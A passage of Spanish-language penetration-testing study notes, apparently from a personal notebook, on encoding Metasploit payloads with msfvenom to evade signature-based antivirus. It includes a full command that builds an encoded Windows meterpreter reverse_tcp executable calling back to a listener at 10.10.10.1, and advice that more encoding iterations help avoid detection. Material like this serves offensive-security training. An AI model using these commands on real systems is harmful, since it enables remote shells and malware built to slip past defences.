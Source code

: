 Dado que el vector de ataque del lado del cliente involucra la transferencia y almacenamiento de payloads maliciosos en el sistema objetivo, debemos ser consientes de la detección de anti virus.
La mayoría de las soluciones anti virus realizan la detección de archivos o ejecutables maliciosos basándose en las firmas.
Podemos evadir algunas de estas detecciones codificando nuestros payloads.
Básicamente el encoding es el proceso de modificar el shellcode del payload con el objetivo de modificar la firma del mismo. 

El shellcode es una pieza del código típicamente utilizada como payload para la explotación.
Obtiene su nombre de la terminal de ejecución de comandos.

Msfvenom como dijimos en el capitulo anterior, posee la capacidad de realizar encoding de los payloads.
Podemos ver los encoders disponibles ejecutando el comando:
	msfvenom --list encoders
En la lista podemos encontrar el nombre del Encoder, la descripción y un rango.
![](../../../Images/Pasted%20image%2020240206125046.png)

Supongamos que queremos generar un payload de meterpreter para un sistema windows y queremos encodearlo, para ello debemos ejecutar el siguiente comando:
	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.1 LPORT=1234 -e x86/shikata_ga_nai -f exe > /home/mrj/Payloads/Windows/payloadx32encodeado
![](../../../Images/Pasted%20image%2020240206130726.png)
Nótese que para realizar el encoding utilizamos la opcion -e
Como se puede observar a la salida de nuestro comando para generar y encodear el payload vemos una pequeña leyenda
![](../../../Images/Pasted%20image%2020240206130926.png)
Observamos que dice 1 iteración, esto significa que nuestro encoder se utilizo en este payload una sola vez, podemos codificar nuestra carga útil tantas veces como queramos. 
Entre mas iteraciones tenga nuestro payload mas aumentan sus posibilidades de que no sea reconocido por un anti virus. 
Podemos especificar el numero de iteraciones que queremos en nuestro payload agregando al comando la opcion -i antes del encoder, por ejemplo:
![](../../../Images/Pasted%20image%2020240206131440.png)
![](../../../Images/Pasted%20image%2020240206131341.png)
![](../../../Images/Pasted%20image%2020240206131356.png)

